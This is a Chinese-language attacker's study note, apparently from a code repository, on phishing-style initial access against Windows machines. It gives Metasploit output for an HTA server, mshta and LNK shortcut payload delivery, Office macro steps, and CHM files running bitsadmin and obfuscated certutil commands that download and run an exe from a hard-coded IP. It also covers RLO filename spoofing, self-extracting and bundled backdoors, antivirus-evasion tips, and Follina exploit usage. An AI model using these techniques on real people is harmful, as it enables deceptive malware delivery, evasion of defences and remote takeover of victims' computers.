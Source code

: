 hta上线
Office宏对象
CHM电子书
LNK快捷方式
上线免杀方案
exe伪装成图片
文件名-RLO伪装-后缀
压缩文件-自解压-运行
捆绑文件-打包加载-运行
Office 套件-CVE 漏洞-上线MSF&CS

^
## **hta上线**
>`mshta.exe` 是 Windows 操作系统的一部分，通常存在于所有现代版本的 Windows 中，包括 Windows 10、Windows 11 以及 Windows Server 系统。`mshta` 是一个命令行实用工具，用于执行 HTML 应用程序（HTA）。

msf
```
msf6 exploit(windows/misc/hta_server) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://0.0.0.0:8080/8HGLrG47OUEJ.hta
[*] Local IP: http://vps:8080/8HGLrG47OUEJ.hta
[*] Server started.
```
执行
```
mshta.exe http://vps:8080/8HGLrG47OUEJ.hta
```


## **Office宏对象**
CS生成，需要点击同意加载宏。
```
Office运行后进程
rundll32.exe   24292   系统文件C:\Windows\SysWOW64\rundll32.exe   TCP  源127.0.0.1:21467  目的127.0.0.1:10809
这里是开了全局代理没有显示外链地址，正常就是远控监听地址
```
有效载荷-Office宏-复制宏代码vb代码

1.word左边选项-设置-自定义功能-勾选开发工具
此时右上角就可以设置宏，可能在视图里
进入点击宏位置在本文件，新建
粘贴宏代码，ctrl+s此时选择否，另存为带有宏的.docm文件(.docm) 或 Word97-2003文档（.doc，老版本word也能用）

此时点开.docm/.doc文件，进入后点击启用宏。即可上线。
也需要做免杀，不然宏代码被删除。如果免杀后且无进程，这种免杀上线不容易被检测。

2.同理excel选择保存：Excel启用宏的工作薄（.xlsm）或 Excel97-2003工作薄（.xls）。

3.同理PPT选择保存：启用宏的PowerPoint演示文稿（.pptm）或 PowerPoint97-2003演示文稿（.ppt）。

4.word,excel.ppt的模板文件后缀，也可以加入宏。


5.office的老板有一个CVE-2017-11882，msf可以生成word打开直接上线msf。

免杀方案：
混淆宏代码，分离远程http加载。
自动化项目：http://github.com/outflanknl/Evi/Clippy  ，将宏代码vba一键注入正常doc，过DF难。
给doc加保护密码。


^
## **CHM电子书文件**
CHM：Compiled HTML Help
利用htm的js调用powershell.exe去连接CS服务端web投递，用EasyCHM工具 转成CHM文件，点击运行上线。
或利用js调用cmd.exe/c bitsadmin/transfer 64c http://47.94.236.117:83/a %APPDATA%\604c.exe&%APPDATA%\604c.exe&del %APPDATA%\604c.exe
用bitsadmin下载604c.exe执行，再删除604c.exe

核心是js调用程序cmd来下载exe，需要对命令做混淆。
c”e””r"”t”"u”"t“i“"l”-"u""”"c"a"c”h"e" -split -f http://47.94.236.117/5.exe  & 5.exe
^
## **LNK快捷方式调用白名单**
调用的白名单执行，免杀。
利用系统文件执行：C:\windows\System32\mshta.exe http://xx.xx.xx.xx:xx/x.ext
快捷方式伪装：
-创建快捷方式
-生成HTA并上传
-属性更改目标执行
-属性更改图标伪装（最好用系统图标，每台机子都有）

CS中攻击载荷生成HTA，选择Executable或PowerShell，生成.hta文件。
用CS开一文件托管或直接将.hta上传服务器获取下载外链，如CS上传文件外链http://xx.xx.xx.xx:xx/x.ext。
快捷方式属性目标改成：C:\windows\System32\mshta.exe http://xx.xx.xx.xx:xx/x.ext
起始目录改成：C:\windows\System32\
点击快捷方式即可上线，此时有可能报毒.hta文件，但.hta文件已经被mshta.exe加入到内存，已经上线。


## **免杀方案**
小迪153

## **exe伪装成图片**
<https://blog.csdn.net/guanjian_ci/article/details/138808440?spm=1001.2014.3001.5502>
```
xgpj.exe 编辑x|gpj.exe文件名右键 插入unicode控制字符反转RLO变xexe.jpg 
```
使用Restorator2018资源管理器对图标修改成一张图片

^
## **文件名-RLO伪装-后缀**
```
xgpj.exe 编辑x|gpj.exe文件名右键 插入unicode控制字符反转RLO变xexe.jpg 
```
使用Restorator2018资源管理器对图标修改

^
## **压缩文件-自解压-运行**
将几个文件使用WinRAR 设置SFX参数压缩成exe，让解压后自动解压到位置并运行。
再使用RLO重命名变成zip后缀，如softexe.zip。

>管家不杀，火绒不杀

^
## **捆绑文件-打包加载-运行**
文件捆绑器.exe binding等工具
将正常程序和后门程序捆绑一起
还有将破解程序的注册机 和 后门捆绑的
<https://blog.csdn.net/m0_67844671/article/details/139316956>

有的捆绑器甚至可以将pdf和后门程序捆绑，打开pdf就上线
>管家可能杀，选择冷门的捆绑工具MatryoshkaDollTool-master

^
## **Office 套件-CVE 漏洞-上线MSF&CS**
Microsoft MSDT CVE-2022-30190 代码执行

https://github.com/JohnHammond/msdt-follina
该漏洞首次发现在 2022 年 5 月 27 日，由白俄罗斯的一个 IP 地址上传。恶意文档从
Word 远程模板功能从远程 Web 服务器检索 HTML 文件，
通过 ms-msdt MSProtocol URI 方法来执行恶意 PowerShell 代码。感染过程利用
程序 msdt.exe，该程序用于运行各种疑难解答程序包。
此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可
以使用 ms-msdt URI 执行任意 PowerShell 代码。

目前已知影响的版本为：
office 2021 Lts
office 2019
office 2016
Office 2013
Office ProPlus
Office 365

<https://blog.csdn.net/weixin_53884648/article/details/127791345>
部署服务html
生成恶意docx。
打开恶意docx，请求html，直接命令执行。

修改exp里面下载后门exe的地址生成docx即可。
python follina.py -m binary -b \windows\system32\calc.exe -t docx